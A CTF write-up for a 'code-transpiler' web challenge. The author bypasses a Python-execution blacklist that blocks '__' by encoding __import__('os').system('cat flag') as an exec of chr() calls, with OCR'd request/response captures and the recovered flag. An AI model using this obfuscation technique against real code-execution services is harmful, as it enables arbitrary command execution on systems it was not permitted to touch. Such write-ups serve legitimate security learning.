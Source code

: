 # code-transpiler
> Bypass the security restriction and get th flag.

## About the Challenge
We were given a website where we can execute a python command like this


[Image extracted text: Request
Response
Pretty
Raw
Hex
0 In
=
Pretty
Raw
Hex
Render
PosT
/execute HTTP/1.1
HTTP/1.0
200
OK
2
Host:
35.242.207
48
32514
2 Content-Type:
text/html;
charset-utf-8
3 Content-Length:
203
3
Content-Length:
13
Cache-Control:
max-age-0
Server:
Werkzeug/2.0.3 Python/3.6.9
5
Upgrade-Insecure-Requests:
5
Date:
Sun,
22
Oct
2023
13:06:05
GMT
6 Origin:
http:
135.242.207.48:32514
6
Content-Type:
multipart/form-data;
Hello
World!
boundary=
~WebKitFormBoundarybwboMSSzDBvbpyFi
User-Agent
Mozilla/5.0
Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome/118 . 0.5993. 88
Safari/537
36
Accept
text/html,application/xhtml+xml,application/xml;q-0.9, image/avif_
image/webp, image/apng, */*;q-0.8,application/signed-exchange;v=b3;
q=0.7
10
Referer:
http://35.242.207.48:32514/
11
Accept-Encoding
gzip,
deflate,
br
12 Accept-Language
en-US, en;q=0.9
13
Connection:
close
14
15
WebKitFormBoundarybwboMSSzDBvbpyFi
16 Content-Disposition:
form-data;
name="file"
filename-"test.py'
17
Content-Type:
text_
/plain
18
19
print
"Hello
World
20
21
WebKitFormBoundary6wboMSSzDBvbpyFi -
22]


And there are also some limitation (For example, we can’t input `__`)


[Image extracted text: Request
Response
Pretty
Raw
Hex
0
In
=
Pretty
Raw
Hex
Render
PosT
/execute HTTP/1.1
HTTP/1.0
200
OK
2
Host:
35.242.207
48: 32514
2 Content-Type:
text/html;
charset-utf-8
3
Content-Length:
197
3 Content-Length:
24
Cache-Control:
max-age-0
Server:
Werkzeug/2.0.3 Python/3.6.9
5
Upgrade-Insecure-Requests:
5
Date:
Sun,
22
Oct
2023
13:06:50
GMT
6 Origin:
http://35.242
207
48:32514
6
Content-Type
multipart/form-data;
BLACKLIST#8:
Harder!
boundary=
~~WebKitFormBoundarybwboMSSzDBvbpyFi
User-Agent
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
(KHTML,
like Gecko)
Chrome/118 . 0.5993. 88
Safari/537
36
Accept
text/html,application/xhtml+xml
application/xml;q=0.9, image/avif_
image/webp, image/apng,*/*;9=0.8,application/signed-exchange;v=b3;
q=0.7
10
Referer:
http://35.242.207.48:32514/
11
Accept-Encoding
gzip,
deflate,
br
12
Accept-Language
en-US, en;q=0.9
13
Connection:
close
14
15
WebKitFormBoundarybwboMSSzDBv6pyFi
16
Content-Disposition:
form-data;
name="file"
filename-"test.py'
17 Content-Type
text/plain
18
19
print
selfl
20
21
WebKitFormBoundarybwboMSSzDBvbpyFi--
22
Try]


## How to Solve?
In this case, we use the `exec()` function, and then I need to change each character to ASCII code and then use the `chr()` function. The command below is used to read the flag

```
__import__("os").system("cat flag") 
```

And then, the final payload will be like this

```
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(111)+chr(115)+chr(34)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(34)+chr(41))
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
0 In
=
Pretty
Raw
Hex
Render
5
In
=
PosT
lexecute
HTTP/1.1
HTTP/1.0
200
OK
2
Host:
35.242.207
48:31734
2 Content-Type
text/html;
charset-utf-8
3 Content-Length:
487
3 Content-Length:
69
Cache-Control:
max-age-0
Server:
Werkzeug/2.0.3 Python/3.6.9
5
Upgrade-Insecure-Requests:
5
Date:
Sun,
22
Oct
2023
10
49:23
GMT
6 Origin: http://35.242.207
48:31734
6
Content-Type
multipart/form-data;
CTF{4e08cd8cc051a304f94dd905b66af29572e3aa8fa56d93200bfd34727e2a8
boundary=_-
~~WebKitFormBoundaryDCUfb8gowLeRZEdF
92a}
User-Agent:
Mozilla/5 .0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome
118.0.5993.88
Safari/537 _
36
Accept
text/html,application/xhtml+xml,application/xml;q=0.9, image/avif ,
image/webp, image/apng
*/*;q=0.8,application/signed-exchange;v=b3;
q=0.7
10
Referer:
http://35.242.207 _
48:31734/
11 Accept-Encoding
gzip,
deflate,
br
12 Accept-Language:
en-US, en;q-0.9
13
Connection:
close
14
15
~~WebKitFormBoundaryDCUfb8gowleRZEdF
16 Content-Disposition:
form-data;
name="file"
filename="lisss.py
17
Content-Type
text/plaind
18
19
exec (chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)
+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(1l1)+chr(115)+chr(3
4)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+c
hr(10g)+chr(40)+chr(34)+chr(9g)+chr(97)+chr(116)+chr(32)+chr(102)
+chr(108
+chr(97)+chr(103)+chr(34)+chr(41) )
20
21
~WebKitFormBoundaryDCUfb8gowleRZEdF_=
22]


```
CTF{4e08cd8cc051a304f94dd905b66af29572e3aa8fa56d93200bfd34727e2a892a}
```